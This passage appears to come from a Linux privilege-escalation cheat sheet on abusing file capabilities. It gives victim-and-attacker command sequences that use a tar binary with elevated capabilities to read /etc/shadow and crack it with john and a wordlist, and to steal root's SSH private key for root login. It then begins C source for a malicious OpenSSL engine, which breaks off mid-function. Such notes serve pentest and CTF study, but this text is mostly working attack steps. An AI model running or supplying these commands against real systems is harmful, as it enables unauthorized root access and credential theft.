 Tar

Method 1
```ps1
Victim

getcap -r / 2>/dev/null         
/usr/bin/tar = cap dac read search+ep
/usr/bin/tar -cvf shadow.tar /etc/shadow
/usr/bin/tar -xvf shadow.tar
cat etc/shadow
Copy content of users accounts to a local file called shadow

Attacker

john shadow --wordlist=/usr/share/wordlists/rockyou.txt
Crack root's credentials

Victim

su root
id && whoami
```
Method 2

```ps1
Victim

getcap -r / 2>/dev/null         
/usr/bin/tar = cap dac read search+ep
/usr/bin/tar -cvf key.tar /root/.ssh/id_rsa
/usr/bin/tar -xvf key.tar
cat id_rsa
# Download id_rsa to attacker machine

Attacker

chmod 600 id_rsa
ssh -i id_rsa root@<victim_ip>
id && whoami

```

OpenSSL

Victim
```ps1
getcap -r / 2>/dev/null         
/usr/bin/openssl = cap_setuid+ep
```

Attacker
Create a .so file - Code below
vi priv.c
```ps1
#include <openssl/engine.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

static const char *engine_id = "test";
static const char *engine_name = "hope it works";

static int bind(ENGINE *e, const char *id)
{
  int ret = 0;
```